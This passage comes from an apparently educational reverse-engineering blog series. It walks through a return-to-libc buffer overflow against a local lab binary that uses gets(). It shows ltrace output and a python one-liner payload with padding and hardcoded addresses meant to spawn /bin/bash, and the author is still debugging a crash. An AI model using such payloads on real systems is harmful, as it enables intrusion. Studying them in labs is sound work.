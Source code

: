     rev_eng_series/post_14$ ltrace ./defeat < exploit.txt __libc_start_main(0x8048453, 1, 0xffffcd54, 0x80484a0 <unfinished ...>
    puts("Before calling func"Before calling func
    )                      = 20
    gets(0xffffcc2c, 0x804b008, 20, 0xf7e5f3ac)      = 0xffffcc2c
    sh: 1: =/bin/bash: not found
    --- SIGCHLD (Child exited) ---
    --- SIGSEGV (Segmentation fault) ---
    +++ killed by SIGSEGV +++

We have to remove that **=**. So, the following is the proper payload. 

    rev_eng_series/post_14$ python -c "print 'a' * 108 + 'b' * 4 + '\xa0\xfd\xe2\xf7' + 'c' * 4 + '\xb0\xd0\xff\xff'" > exploit.txt
    rev_eng_series/post_14$ 




At this point, I don't what the problem is. I am sure that **/bin/bash** is executed. But it is **exiting** and the program is SegFaulting. 

You may have got the exploit right when we tried with "/bin/sh" itself. But unfortunately, that is not the case with me. Because of the newline character, I had to repeat the process with "/bin/bash". 













